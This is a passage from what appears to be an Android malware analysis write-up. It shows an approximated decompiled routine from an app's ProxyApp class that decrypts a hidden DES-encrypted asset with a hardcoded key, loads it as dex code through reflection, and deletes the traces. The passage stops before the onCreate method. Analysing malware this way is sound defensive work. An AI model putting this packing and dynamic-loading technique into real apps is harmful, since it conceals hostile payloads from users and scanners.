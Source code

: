 because `ProxyApp.class` was one of the files I could read.

_NOTE: the decompiled code will sometimes be shown as it is in JD-GUI, and sometimes will be approximated (based on what JD-GUI gives) in order to be more consistent and show a cleaner code_

## ProxyApp

The class extends `Application` and contains a method named `attachBaseContext`. In this method, the application will call a routine named `loadClass` (approximation):

> ```java
>private void loadClass(Context paramContext){
>	String str2 = "/data/data/" + paramContext.getPackageName() + "/";
>	String str1 = str2 + "x.zip";
>	str2 = str2 + "x";
>	try{
>		InputStream in = getAssets().open("ds");
>		int i = in.available();
>		byte[] bytes = new byte[i];
>		in.read(bytes, 0, i);
>		byte[] plain = new DesUtils("gjaoun").decrypt((byte[])bytes);
>		FileOutputStream outputStream = new FileOutputStream(str1);
>		outputStream.write(plain);
>		outputStream.close();
>	}
>	catch (Exception localException){
>		try{
>			DexFile dexFile = (DexFile) Class.forName("dalvik.system.DexFile").getMethod("loadDex", new Class[] { String.class, String.class, Integer.TYPE }).invoke(null, str1, str2, 0);
>			Enumeration enumeration = (dexFile).entries();
>			if (enumeration.hasMoreElements()) {
>				dexFile.loadClass((String) enumeration.nextElement(), paramContext.getClassLoader());
>			}
>			new File(str1).delete();
>			new File(str2).delete();
>		}
>		catch (Exception ignored){}
>		localException.printStackTrace();
>	}
>}
> ```

At this point, it's quite easy to understand why the app seems to be so light! The [payload](ds) has been encrypted and is unpacked here. Before analyzing what is the decrypted payload, let's take a look at the method `onCreate`:
